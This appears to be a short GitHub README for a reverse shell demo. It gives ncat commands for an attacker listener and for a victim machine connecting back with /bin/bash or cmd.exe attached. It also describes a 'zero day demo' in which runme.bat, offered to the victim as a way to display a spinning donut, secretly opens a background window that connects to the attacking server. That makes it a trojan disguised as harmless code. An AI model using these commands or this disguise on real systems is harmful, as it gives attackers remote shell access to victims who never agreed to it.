 # Reverse Shell Demo

## This demo is done between 2 computers on the same network, a server (attacker computer), and a client (victim computer). This can be done on a remote target but local targets are faster for a demo, result is identical.

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
Run `ncat -lvnp <port>`


### 3) Connect client to server:
**On Linux/Bash:**

Run `ncat <server-internal-ip> <port> -e /bin/bash`

**On Windows:**

Run `ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*


## For the zero day demo, target should clone/download this repo, placing `donut.py` and `runme.bat` in the same directory.
### When the victim executes `runme.bat` to "display" the Donut in their terminal, another CMD windows open in the background that connects to the attacking server.
